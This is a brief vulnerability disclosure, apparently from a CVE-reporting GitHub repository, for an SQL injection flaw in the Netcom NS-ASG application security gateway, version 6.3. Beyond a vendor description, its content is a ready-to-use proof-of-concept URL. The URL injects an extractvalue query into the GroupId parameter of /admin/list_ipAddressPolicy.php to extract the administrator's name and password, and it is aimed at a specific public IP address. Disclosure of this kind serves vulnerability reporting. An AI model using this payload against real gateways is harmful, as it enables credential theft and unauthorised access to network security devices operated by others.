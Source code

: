 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ：/admin/list_ipAddressPolicy.php

https://1.85.53.53/admin/list_ipAddressPolicy.php?GroupId=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))

<img width="583" alt="图片" src="https://github.com/zouzuo1994321/cve/assets/49036599/e0f85c63-60f6-4972-83db-c19a0e97e861">
